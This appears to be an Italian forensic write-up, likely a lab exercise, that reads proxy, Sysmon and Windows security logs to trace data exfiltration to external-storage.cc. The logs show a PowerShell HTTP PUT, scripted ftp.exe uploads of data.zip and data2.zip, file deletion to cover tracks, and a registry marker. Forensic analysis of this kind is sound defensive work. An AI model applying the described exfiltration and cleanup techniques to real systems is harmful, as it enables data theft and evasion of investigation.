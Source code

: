 


# Logs 
Network & Endpoint Logs

![ ](../image/7a.png)
![ ](../image/7b.png)

# Ricognizione
```
└── 11:05:03 PROXY01 ... suspicious GET http://external-storage[.]cc/storage/credentials[.]txt (da 10.20.14.55)
```
Alle 11:05:03 il primo passo di ricognizione, un client interno (IP 10.20.14.55) contatta tramite Proxy01 il dominio sospetto external-storage.cc, chiedendo un file chiamato `credentials.txt`. Questo tipo di richiesta serve all’attaccante per verificare se il server C2 è attivo e pronto a ricevere dati. È come un “ping” iniziale per stabilire contatto.
Subito dopo inizia la vera esfiltrazione dei dati.

# Metodo di Esfiltrazione 1 ( PowerShell HTTP PUT)
```
└── 11:05:25 powershell.exe (User a.wilson, parent=explorer.exe) ... PUT data.zip to external-storage.cc
     └── 11:05:27 FileCreate ... data.zip scritto (SHA256=A3B1C…)
     └── 11:05:35 TCP connect ... 198.51.100.12:80
     └── 11:05:37 PROXY01 POST ... data.zip 65 KB to external-storage.cc
     └── 11:05:52 cmd.exe cleanup ... cancella data.zip (child of powershell)
```
La prima tecnica di esfiltrazione è stata realizzata con PowerShell, sfruttando la capacità del comando di interagire con server remoti. Alle 11:05:25, powershell.exe (PID 6120, utente CORP\a.wilson, avviato da explorer.exe) ha tentato di caricare un file chiamato `data.zip` sul dominio `external-storage.cc` utilizzando il metodo HTTP PUT. In realtà, in quel preciso istante, il file non esisteva ancora... il comando ha solo avviato il processo di preparazione.

Solo due secondi dopo, alle 11:05:27, Sysmon registra la creazione del file data.zip, completo di hash SHA256, segno che i dati interni sono stati raccolti e compressi in un archivio pronto per la trasmissione. Poi, lo stesso processo apre una connessione TCP verso l’indirizzo remoto `198.51.100.12:80`, e poco dopo il proxy aziendale (PROXY01) conferma un’operazione di HTTP POST da 65 KB diretta al dominio esterno. Questo rappresenta l’effettiva uscita dei dati dall’ambiente interno.

Infine, alle 11:05:52, un nuovo processo cmd.exe, generato come figlio di powershell.exe, esegue un comando di eliminazione di data.zip dal disco. Chiaramente è un passo di cleanup, volto a cancellare tracce locali e rendere più difficile l’analisi forense.


# Metodo di Esfiltrazione 2  (Client FTP)
```
└── 11:05:41 ftp.exe -s:ftp_commands.txt external-storage.cc (spawned post-cleanup)
     └── 11:05:42 / 11:05:45 ... handle + accesso a data.zip
     └── 11:05:49 TCP connect ... external-storage.cc:21
     └── 11:06:25 FileCreate ... ftp_commands.txt (istruzioni FTP)
     └── 11:06:33 cmd.exe ... scrive batch script FTP (parent=ftp.exe)
```
Alle 11:05:41 viene eseguito il process ftp.exe con il parametro `-s:ftp_commands.txt`. Questo significa che l’attaccante non digita i comandi a mano, ma usa un file di script che contiene tutte le istruzioni necessarie. Così l’FTP lavora in automatico e silenziosamente.
Subito dopo, tra le 11:05:42 e le 11:05:45, i log di sicurezza mostrano che ftp.exe ha richiesto un handle e ha letto il file data.zip. In pratica, sta aprendo il file per prepararlo al trasferimento. 

Poi Sysmon registra una connessione TCP verso external-storage.cc sulla porta 21, che è la porta standard del protocollo FTP. Questo conferma che la sessione FTP è stata effettivamente stabilita con il server esterno.
11:06:25, viene creato un nuovo file `ftp_commands.txt`, questa volta generato automaticamente. È uno script con comandi come open `external-storage.cc, user anon, put data.zip, e infine bye`. Questo tipo di file serve a dire al client FTP di aprire la connessione, accedere con utente anonimo e caricare il file senza interazione umana.

11:06:33, infatti, un nuovo cmd.exe scrive un secondo script FTP, stavolta con istruzioni per caricare anche `data2.zip`. Questo mostra come l’attaccante stia usando più tentativi, diversificando i metodi di esfiltrazione per aumentare le chance di successo.

# Metodo di Esfiltrazione 3 ( Automazione Batch / Second File)

```
└── 11:06:33 cmd.exe (batch automation) 
     └── 11:06:37 FileCreate ... data2.zip
     └── 11:06:41 TCP connect ... external-storage.cc:21
     └── 11:06:45 FileCreate ... data2.zip confermato (secondo metodo di esfiltrazione)
     └── 11:06:59 RegistryValueSet ... HKCU\Software\Corp\LastExfil = external-storage.cc (execution marker)
```
Alle 11:06:37 i log mostrano la creazione di un nuovo file chiamato data2.zip. l’attaccante non si limita a un solo file, ma prepara un ulteriore archivio da inviare al server esterno. Subito dopo, il processo cmd.exe stabilisce una connessione TCP verso il dominio `external-storage.cc ` utilizzando la porta 21, che è quella standard del protocollo FTP. Questo significa che il file appena creato è destinato ad essere trasferito tramite una sessione FTP.

Un elemento interessante è che poco prima, tra le 11:06:25 e le 11:06:33, viene creato un nuovo file `ftp_commands.txt`. Non si tratta di un file scritto manualmente, ma di uno script generato direttamente da cmd.exe usando comandi `echo`. Dentro questo script ci sono le istruzioni per aprire la connessione FTP, accedere con utente anonimo, caricare il file data2.zip e infine chiudere la sessione con un comando di uscita. In questo modo l’attaccante non deve digitare nulla, tutto avviene in automatico e silenziosamente.

Alle 11:06:45, i log segnalano nuovamente la creazione di data2.zip, probabilmente perché il file è stato copiato o riscritto durante il processo di upload. Questo mostra che l’attaccante ha predisposto un meccanismo ridondante per assicurarsi che il file fosse effettivamente pronto al trasferimento. 

Infine, Sysmon registra una modifica al Registro di Windows...la chiave `HKCU\Software\Corp\LastExfil` viene aggiornata con il valore `“2025-08-22T11:05:37 external-storage.cc”`. significa che l’attaccante tiene traccia delle esfiltrazioni completate, lasciando un piccolo segno interno che funge da checkpoint per futuri attacchi o per evitare duplicazioni.


# 


```
 └── 11:06:08 Security 4634 ... User a.wilson logoff
 └── 11:10:05 Security 4625 ... Tentativo fallito di logon (possible account lockout)
```
Alla fine delle attività di esfiltrazione, i log mostrano la chiusura della sessione dell’utente. Alle 11:06:08, l’account a.wilson effettua un logoff interattivo dal portatile WIN10-LAPTOP, segnalato come Security EventID 4634. indica che l’attaccante, o lo script usato, ha terminato la sessione probabilmente per nascondere meglio le tracce o per chiudere l’attività senza lasciare processi attivi in memoria. Poco dopo, alle 11:10:05, compare un tentativo di accesso fallito con lo stesso account, CORP\a.wilson, che genera un Security EventID 4625. Questo evento potrebbe indicare che l’account è stato bloccato dopo gli abusi.


